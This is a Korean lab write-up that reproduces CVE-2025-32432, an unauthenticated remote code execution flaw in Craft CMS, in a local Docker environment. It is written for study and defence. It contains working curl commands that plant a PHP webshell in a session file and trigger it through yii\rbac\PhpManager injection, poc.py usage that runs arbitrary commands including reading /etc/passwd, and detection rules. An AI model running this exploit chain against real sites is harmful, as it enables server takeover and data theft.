



# Craft CMS Yii 클래스 주입 원격 코드 실행 취약점 (CVE-2025-32432)


**Contributors**
-   [이예찬(@wh0isye)](https://github.com/wh0isye)

<br/>

### 요약

- 해당 취약점은 PHP 기반 콘텐츠 관리 시스템(CMS)인 **Craft CMS** 에 대한 취약점입니다.
- 이미지 변환 엔드포인트 `POST /index.php?p=actions/assets/generate-transform` 는
  요청 본문의 JSON 을 **Yii 프레임워크의 의존성 주입(DI) 컨테이너에 검증 없이 전달**합니다.
- 공격자는 `__class` 키로 임의 클래스(`yii\rbac\PhpManager`)를 생성시키고, 그 생성자
  인자로 **자신이 앞서 오염시킨 PHP 세션 파일**을 지정해 `include` 시킬 수 있습니다.
  그 결과 세션 파일에 심어 둔 PHP 웹셸이 **인증 없이 웹서버(www-data) 권한으로 실행**됩니다.
- 취약 버전: `3.0.0-RC1 ~ 3.9.14`, `4.0.0-RC1 ~ 4.14.14`, `5.0.0-RC1 ~ 5.6.16`
  (패치 버전: **3.9.15 / 4.14.15 / 5.6.17**)
- CVSS v3.1 **10.0 (Critical)** `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` — 2025년 4월 실제
  공격에 악용되어 **CISA KEV(알려진 악용 취약점)** 목록에 등재되었습니다.


### 참고 문서

- https://nvd.nist.gov/vuln/detail/CVE-2025-32432
- https://craftcms.com/knowledge-base/craft-cms-cve-2025-32432
- https://github.com/craftcms/cms/security/advisories/GHSA-f3gw-9ww9-jmc3
- https://www.opswat.com/blog/cve-2025-32432-unauthenticated-remote-code-execution-in-craft-cms

<br/>

### 환경 구성 및 실행

#### 1. 환경 구성

아래 명령어로 취약한 Craft CMS(web) 와 MySQL(db) 컨테이너를 실행합니다.

```
docker compose up -d
```

<br/>

아래 명령어(또는 Docker Desktop)로 컨테이너가 실행 중인지 확인합니다.
(기동에는 약 20초~1분 소요됩니다.)

```
docker compose ps
```



<br/>

브라우저에서 `http://127.0.0.1:8088/admin` 에 접속해 Craft CMS 로그인 페이지가 뜨면
환경이 정상적으로 구축된 것입니다.



<br/>

> **구성 참고 (vulhub 원본과의 차이).** vulhub 원본은 DB 연결·설치가 모두 구워진
> `vulhub/craftcms:5.6.16` 이미지를 사용하지만, **해당 태그는 현재 Docker Hub 에
> 배포되어 있지 않아 `docker compose pull` 이 실패**합니다. 본 환경은 공개된 마지막
> 취약 이미지 `vulhub/craftcms:5.5.1.1`(CVE-2025-32432 에 취약: `5.x < 5.6.17`)을
> 사용하고, 원본 이미지가 대신 해주던 **① DB 연결 교정 ② 최초 Craft 설치**를
> `entrypoint.sh` 가 기동 시 자동으로 수행합니다. 따라서 별도 수작업 없이
> `docker compose up` 한 번으로 재현이 완료됩니다.
>
> (참고) 본 검증은 Apple Silicon(arm64) 에서 수행했으며, 해당 이미지는 `linux/amd64`
> 라 Docker 에뮬레이션으로 구동됩니다. 기동 시 platform 경고가 나오지만 재현에는
> 영향이 없습니다.

#### 2. 취약 조건

1. Craft CMS 버전이 패치 이전일 것 (`3.x < 3.9.15`, `4.x < 4.14.15`, `5.x < 5.6.17`).
2. 이미지 변환 엔드포인트 `assets/generate-transform` 가 노출되어 있을 것(기본 상태).
   해당 엔드포인트는 **인증을 요구하지 않습니다.**
3. `/tmp` 등 세션 저장 경로에 공격자가 내용을 통제하는 파일을 만들 수 있을 것
   (PHP 기본 세션 저장소가 이 조건을 충족).

#### 3. 취약점 원리 (근본 원인)

**(1) 사용자 입력이 그대로 객체 생성기로 전달됨.**
Craft 는 이미지 변환 요청 본문의 `handle`(변환 정의) JSON 을 Yii 의
`Craft::createObject()` / DI 컨테이너로 넘겨 객체를 만듭니다. Yii 의 객체 생성기는
배열의 **`class` / `__class` 키를 보고 그 클래스를 인스턴스화**하고 `__construct()`
값을 **생성자 인자로 그대로 전달**합니다. Craft 가 이 값을 화이트리스트 없이
전달하므로, 공격자는 **원하는 임의 클래스를 원하는 인자로 생성**할 수 있습니다.

**(2) `yii\rbac\PhpManager` 라는 "파일 include" 가젯.**
주입 가능한 클래스 중 `PhpManager` 는 초기화 시 `itemFile` 로 지정된 경로를
**PHP 로 `include`** 합니다. 즉 "특정 파일을 PHP 로 실행"시키는 가젯이 됩니다.

**(3) 세션 파일 오염(쓰기 프리미티브).**
GET 쿼리스트링에 PHP 코드를 실어 보내면 그 내용이 **세션 파일
`/tmp/sess_<SessionId>` 에 원문 그대로 저장**됩니다. 공격자는 응답 쿠키로 자신의
`SessionId` 를 알고 있으므로 이 파일 경로도 압니다.

**(4) 실행 흐름.**

```
[공격자]
  │ ① GET  /index.php?p=admin/dashboard&cve202532432=<?=shell_exec($_GET['cmd']);?>
  │        → PHP 코드가 세션 파일 /tmp/sess_<SID> 에 그대로 기록됨 (쓰기 프리미티브)
  ▼
  │ ② POST /index.php?p=actions/assets/generate-transform&cmd=<명령>
  │        본문: { handle: { "as hack": {
  │                 "__class": "yii\rbac\PhpManager",
  │                 "__construct()": [ { "itemFile": "/tmp/sess_<SID>" } ] } } }
  ▼
[Yii DI 컨테이너] ── __class 를 보고 PhpManager 객체 생성
  ▼
[PhpManager] ── itemFile(=세션 파일) 을 PHP 로 include
  ▼
[PHP 엔진] ── 세션 파일 안의 웹셸 실행 → shell_exec($_GET['cmd'])
  ▼
응답 본문에 명령 실행 결과가 그대로 반환됨 → 인증 없이 RCE 성립
```

핵심은 **"사용자 입력으로 임의 클래스를 생성(신뢰 경계 위반)"** 과 **"내용을 통제
가능한 파일을 PHP 로 include 하는 가젯"** 두 결함의 결합입니다.

#### 4. 취약점을 이용한 원격 코드 실행

첨부된 [poc.py](poc.py) 스크립트로 취약점을 재현합니다. **Python 표준 라이브러리
(urllib)만 사용**하므로 별도 패키지 설치가 필요 없습니다. 스크립트는 위 2단계 공격
(세션 오염 → PhpManager include)을 자동으로 수행합니다.

```bash
# 기본: 대상 컨테이너에서 `id` 실행
python3 poc.py

# 임의 명령 실행
python3 poc.py -c "uname -a"
python3 poc.py -c "cat /etc/passwd"

# 대상 지정
python3 poc.py -u http://127.0.0.1:8088 -c id
```

<br/>

(선택) curl 로 직접 재현할 수도 있습니다. `-g` 는 페이로드의 `[ ]` 를 curl 이 URL
패턴으로 오해하지 않게 하고, `-L` 은 1단계 리다이렉트를 따라가 CSRF 토큰을 얻기 위함입니다.

```bash
# 1단계: 세션 파일에 PHP 웹셸 주입 + CraftSessionId / CSRF 토큰 확보
BODY=$(curl -sgL -c cookie.txt \
  "http://127.0.0.1:8088/index.php?p=admin/dashboard&cve202532432=<?=shell_exec(\$_GET['cmd']);exit;?>")
SID=$(grep -aoE 'CraftSessionId[[:space:]]+[a-f0-9]+' cookie.txt | awk '{print $2}')
CSRF=$(printf '%s' "$BODY" | grep -aoE 'name="CRAFT_CSRF_TOKEN" value="[^"]+' | sed 's/.*value="//')

# 2단계: PhpManager 로 세션 파일 include → RCE
curl -sg -b cookie.txt \
  "http://127.0.0.1:8088/index.php?p=actions/assets/generate-transform&cmd=id" \
  -H 'Content-Type: application/json' -H "X-CSRF-Token: $CSRF" \
  -d "{\"assetId\":0,\"handle\":{\"width\":1,\"height\":1,\"as hack\":{\"class\":\"craft\\\\behaviors\\\\FieldLayoutBehavior\",\"__class\":\"yii\\\\rbac\\\\PhpManager\",\"__construct()\":[{\"itemFile\":\"/tmp/sess_${SID}\"}]}}}"
# → uid=33(www-data) ...
```

<br/>

### 결과

인증 없이 보낸 요청만으로 `id` 명령이 실행되어 **`uid=33(www-data)`** 가 반환되고,
이어 `cat /etc/passwd` 로 시스템 계정 정보까지 그대로 유출됩니다. 명령 실행 결과가
응답 본문에 담겨 돌아오므로 **인증 없는 완전한 원격 코드 실행(RCE)** 임이 확인됩니다.



<br/>

### 정리

Craft CMS 의 이미지 변환 기능은 사용자가 보낸 JSON 을 Yii DI 컨테이너에 그대로
넘기면서 **`__class` 로 임의 클래스를 생성**할 수 있게 했습니다. 공격자는 이를
이용해 파일을 PHP 로 include 하는 `yii\rbac\PhpManager` 가젯을 생성하고, 미리
오염시킨 세션 파일을 실행시켜 **인증 없이 원격 코드 실행**에 성공합니다.

#### 해결방법

1. **패치 적용(근본 대응)**: Craft CMS 를 **3.9.15 / 4.14.15 / 5.6.17 이상**으로
   업그레이드합니다. 패치본은 변환 요청에서 **임의 클래스 생성(`__class` 주입)을 차단**합니다.
2. **연계 취약점 차단**: 실제 공격에 함께 쓰인 Yii 결함(CVE-2024-58136)도 패치되도록
   의존성(Yii 2.0.x)을 최신으로 유지합니다.
3. **침해 대응**: 이미 침해되었을 수 있으므로 패치 후 `CRAFT_SECURITY_KEY` 재발급,
   세션·캐시 초기화, 비정상 파일(웹셸) 점검을 수행합니다(공식 권고).
4. **운영 모드 강제**: `CRAFT_DEV_MODE=false` 로 상세 오류 노출을 차단하고, 관리자
   엔드포인트를 방화벽으로 최소 노출합니다.
5. **최소 권한 실행**: 웹서버를 비특권 계정으로 구동하고, `/tmp` 등 쓰기 가능한
   경로에서 PHP 실행이 불가능하도록 `open_basedir`·권한을 제한합니다.

##### 패치 비교 (5.6.16 → 5.6.17)

| 구분 | 5.6.16 이하 (취약) | 5.6.17 (패치) |
|---|---|---|
| 변환 정의 처리 | 요청 JSON 의 `__class` 를 받아들여 **임의 클래스 인스턴스화** | 허용된 변환 속성만 처리, **임의 클래스 생성 차단** |
| 결과 | 인증 없이 객체 주입 → RCE | 취약 경로 제거 |

#### 탐지 관점 (블루팀)

- 접근 로그에서 **`assets/generate-transform`** 요청 본문에 `__class`,
  `yii\rbac\PhpManager`, `__construct()`, `itemFile` 문자열이 포함된 요청을 탐지.
- 쿼리스트링에 `<?`, `shell_exec`, `system(` 등 PHP 코드 조각이 섞인 요청 탐지.
- 웹서버 프로세스가 `/tmp/sess_*` 파일을 include 하거나 `sh -c` 등 비정상 자식
  프로세스를 생성하는지 EDR 로 감시.

<br/>

### 환경 종료

```
docker compose down -v
```
